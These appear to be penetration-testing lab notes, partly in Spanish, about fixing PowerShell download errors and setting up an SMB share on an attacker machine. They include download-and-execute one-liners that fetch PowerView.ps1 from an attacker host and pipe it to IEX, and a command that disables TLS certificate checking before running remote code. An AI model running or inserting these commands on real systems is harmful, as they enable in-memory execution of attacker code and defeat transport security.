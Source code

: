 -------------

# Common Errors with PowerShell

### 1. PowerShell – Error común con `Invoke-WebRequest`

- **Problema:**  
    Al usar `Invoke-WebRequest` para descargar un script, PowerShell intenta usar **Internet Explorer** para procesar la respuesta.  
    Si IE nunca se configuró (primera ejecución) o no está disponible, aparece este error:
    `The response content cannot be parsed because the Internet Explorer engine is not available...`
- **Solución:**  
    Usar el parámetro `-UseBasicParsing` para **tratar la respuesta como texto plano**, sin depender de IE:
    `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`
- **Notas:**
    - Útil cuando solo quieres **descargar y ejecutar scripts en memoria**.
    - Evita errores relacionados con IE y funciona en entornos donde IE no está configurado.

```powershell-session
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

### 2. PowerShell HTTPS Download – SSL/TLS Error**

- **Problema:** Certificado SSL no confiable al usar `DownloadString`.
- **Error típico:**
    `Could not establish trust relationship for the SSL/TLS secure channel`
    
- **Solución:** Ignorar la verificación temporalmente:
`[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true} IEX (New-Object Net.WebClient).DownloadString('https://<URL>')`
- **Nota:** Solo usar en entornos controlados, ya que desactiva la seguridad SSL.


----------

# SMB Downloads
- **Qué es SMB:**  
    Protocolo de red en Windows (TCP/445) para transferir archivos entre máquinas.
- **Montar un servidor SMB desde la máquina atacante:**
```
sudo impacket-smbserver share -smb2support /tmp/smbshare`
```
